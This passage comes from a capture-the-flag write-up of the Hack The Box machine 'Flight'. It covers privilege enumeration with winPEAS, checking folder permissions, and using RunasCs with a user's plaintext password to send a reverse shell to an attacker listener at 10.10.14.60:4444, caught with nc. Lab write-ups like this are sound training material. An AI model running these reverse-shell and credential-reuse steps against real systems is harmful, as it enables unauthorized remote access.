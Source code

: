 Still unable to access the user.txt flag, I load winPEAS to help enumerate a privesc vector.

Going through the output I see that the box is also internally open on port 8000.

```
TCP        0.0.0.0               8000          0.0.0.0               0               Listening
```

Also of interest, this box has both an `C:\intetpub` directory, as well as a `C:\xampp` directory. Poking around more I find that the `development` folder is not writable by my user, but c.bum is able to write to it:

```
PS C:\inetpub> icacls development
development flight\C.Bum:(OI)(CI)(W)
            NT SERVICE\TrustedInstaller:(I)(F)
            NT SERVICE\TrustedInstaller:(I)(OI)(CI)(IO)(F)
            NT AUTHORITY\SYSTEM:(I)(F)
            NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
            BUILTIN\Administrators:(I)(F)
            BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
            BUILTIN\Users:(I)(RX)
            BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
            CREATOR OWNER:(I)(OI)(CI)(IO)(F)
```

Since we have c.bum's credentials lets copy over https://github.com/antonioCoco/RunasCs to get a working shell as c.bum.

Once transfered to the target I can set up a listener and run:

```
PS C:\temp> .\RunasCs.exe c.bum Tikkycoll_431012284 cmd.exe -r 10.10.14.60:4444
[*] Warning: The logon for user 'c.bum' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-88dbd$\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 1892 created in background.
```

Getting us a shell back as user c.bum
```
┌──(ryan㉿kali)-[~/HTB/Flight]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.60] from (UNKNOWN) [10.10.11.187] 50617
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
flight\c.bum
```

And we can now grab the user.txt flag:
